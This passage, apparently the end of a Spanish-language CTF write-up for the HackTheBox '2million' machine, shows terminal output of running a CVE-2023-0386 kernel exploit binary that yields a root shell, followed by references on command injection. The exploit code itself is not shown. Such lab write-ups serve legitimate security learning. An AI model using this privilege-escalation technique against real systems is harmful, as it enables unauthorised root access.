 #### Terminal 2

```shell
admin@2million:/tmp/tmp.jrzrl3YKBU/CVE-2023-0386$ ./exp 
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Oct  4 02:47 .
drwxr-xr-x 6 root   root     4096 Oct  4 02:47 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
```

```shell
root@2million:/tmp/tmp.jrzrl3YKBU/CVE-2023-0386# whoami
root
```

pwned :P

## Referencias:

- [https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)
- [https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)

- [https://owasp.org/Top10/A03_2021-Injection/](https://owasp.org/Top10/A03_2021-Injection/)
- [https://owasp.org/www-community/attacks/Command_Injection](https://owasp.org/www-community/attacks/Command_Injection)
